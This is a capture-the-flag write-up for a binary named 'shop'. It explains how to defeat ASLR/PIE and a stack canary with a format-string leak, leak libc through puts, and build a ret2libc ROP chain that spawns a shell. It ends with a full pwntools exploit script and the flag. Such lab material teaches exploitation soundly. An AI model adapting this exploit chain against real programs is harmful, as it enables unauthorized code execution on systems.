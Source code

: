 #Challenge Description

Do you hear, about ASLR and stack canary!!!

This is the privesc part of our PFA project,
if you solve it you are 1337 hacker
Author: YasseX

#Challenge Overview

This CTF is about bypassing ASLR and stack canaries to achieve a ret2libc attack.

To solve the challenge, we need to:
	-Leak a stack canary and the program base address (to bypass ASLR) using a format string vulnerability.
	-Leak a libc address (via puts) to calculate the libc base address.
	-Execute a ret2libc attack to spawn a shell (/bin/sh).

Step-by-Step Exploit

#1. Leaking main address and stack canary (Format String Attack)

First, we abuse a format string vulnerability to leak two important values:
The address of the main function (to calculate the binary base address and defeat ASLR).
The value of the stack canary (to bypass the stack protector).
io.sendline(b'%17$p.%13$p')

This sends a format string payload.
We then parse the output:
leak_line = io.recvline().strip()
main_str, canary_str = leak_line.split(b'.')
main = int(main_str, 16)
canary = int(canary_str, 16)

From here:

main gives us the base address of the binary.
canary is the random stack canary value protecting the stack.

#2. Calculating Important Addresses
Since the binary is position-independent (PIE enabled), we calculate actual addresses by knowing the offsets:
binary_base = main - main_offset
getchar = getchar_got_offset + binary_base
puts = puts_plt_offset + binary_base
pop_rdi = pop_rdi_offset + binary_base
ret = ret_offset + binary_base

This allows us to find:

getchar (in GOT)
puts (in PLT)
pop rdi; ret gadget
ret gadget (for stack alignment if needed)

#3. Leaking a libc address
Next, we prepare a payload to leak the real address of getchar in libc using puts:
payload = b'Y' * 104
payload += p64(canary)
payload += b'Y' * 8
payload += p64(pop_rdi)
payload += p64(getchar)
payload += p64(puts)
payload += p64(main)

This sends the address of getchar to stdout using puts, allowing us to calculate the libc base address.

getchar_libc = u64(io.recvline().strip().ljust(8, b"\x00"))
libc_base = getchar_libc - getchar_libc_offset

#4. Final ret2libc Attack
With the libc base address known, we can find:

system function
/bin/sh string

system_address = libc_base + system_offset
bin_sh_address = libc_base + bin_sh_offset

Finally, we craft the final payload:
payload = b'Y' * 104
payload += p64(canary)
payload += b'A' * 8
payload += p64(pop_rdi)
payload += p64(bin_sh_address)
payload += p64(ret)
payload += p64(system_address)

This calls system("/bin/sh"), giving us a shell!


#Here is the full exploit used to solve the challenge:

from pwn import *

context.binary = 'shop'
elf = ELF('shop')
rop = ROP(elf)
io = process()


main_offset = 0x11e0
puts_plt_offset = 0x1040
getchar_got_offset = 0x4030
getchar_libc_offset = 0x86380
bin_sh_offset = 0x1a7e43
system_offset = 0x528f0
pop_rdi_offset = 0x11cc
ret_offset = 0x1016

io.sendline(b'%17$p.%13$p')
io.recvuntil(b'Welcome, ')

leak_line = io.recvline().strip()

main_str, canary_str = leak_line.split(b'.')

main = int(main_str, 16)
canary = int(canary_str, 16)

print('the main functions is : ',hex(main))
print('the canary is : ',hex(canary))

binary_base = main - main_offset
getchar = getchar_got_offset + binary_base
puts = puts_plt_offset + binary_base
pop_rdi = pop_rdi_offset + binary_base
ret = ret_offset + binary_base

io.sendline(b'4')

payload = b'Y' * 104
payload += p64(canary)
payload += b'YYYYYYYY'
payload += p64(pop_rdi)
payload += p64(getchar)
payload += p64(puts)
payload += p64(main)

io.sendline(payload)

io.recvuntil(b"------------------------------------------------")
io.recvline()
io.recvline()

getchar_libc = u64(io.recvline().strip().ljust(8, b"\x00"))

libc_base = getchar_libc - getchar_libc_offset
system_address = libc_base + system_offset
bin_sh_address = libc_base + bin_sh_offset

print("libc base : ",hex(libc_base))
print("system : ",hex(system_address))
print("/bin/sh : ",hex(bin_sh_address))


io.sendline(b'yassine')
sleep(0.1)
io.sendline(b'4')

payload = b'Y' * 104
payload += p64(canary)
payload += b'A' * 8
payload += p64(pop_rdi)
payload += p64(bin_sh_address)
payload += p64(ret)
payload += p64(system_address)

io.sendline(payload)

io.interactive()


#Summary

Step			Purpose
Format String Leak	Leak main address and canary
Calculate Binary Base	To defeat PIE and ASLR
Leak Libc Address	Leak getchar and calculate libc base
ret2libc		Call system("/bin/sh") for a shell


#flag : SECOPS{r3t2libc_1s_v3ry_c00l_att4ck}
